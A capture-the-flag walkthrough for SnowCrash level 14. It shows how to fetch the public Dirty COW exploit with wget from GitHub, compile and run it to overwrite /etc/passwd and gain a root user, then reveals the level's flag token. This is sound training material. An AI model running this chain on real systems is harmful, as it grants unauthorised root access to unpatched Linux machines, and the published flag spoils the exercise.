 # SnowCrash Level14 Guide
This guide will walk you through the process to connect as the `flag14` user.

## Procedure:

1. **Examine your environment**

`uname -a` : Display system informations.
```
Linux SnowCrash 3.2.0-89-generic-pae #127-Ubuntu SMP Tue Jul 28 09:52:21 UTC 2015 i686 i686 i386 GNU/Linux
```

The linux kernel version 3.2.0-89-generic-pae is vulnerable to dirty cow exploit.

2. **Getting exploit sources**

On client download the exploit source file:
```bash
wget --no-check-certificate https://raw.githubusercontent.com/firefart/dirtycow/refs/heads/master/dirty.c
```

Copy the file on host:
```bash
scp -P 4242 ./dirty.c level14@<host-ip>:/tmp/dirty.c
```

Compile file on host:
```bash
cd /tmp
gcc -pthread dirty.c -o dirty -lcrypt
```

3. **Run exploit**

Run exploit binary:
```bash
./dirty
[enter new password]
```

In another tty connect as firefart with the new password.
Restore the old passwd file:
```
mv /tmp/passwd.bak /etc/passwd
```

4. **Get the flag**

Switch to user flag14:
```bash
su flag14
```

Get the flag:
```bash
getflag
```

Check flag.Here is your token : 7QiHafiNa3HVozsaXkawuYrTstxbpABHD8CPnHJ
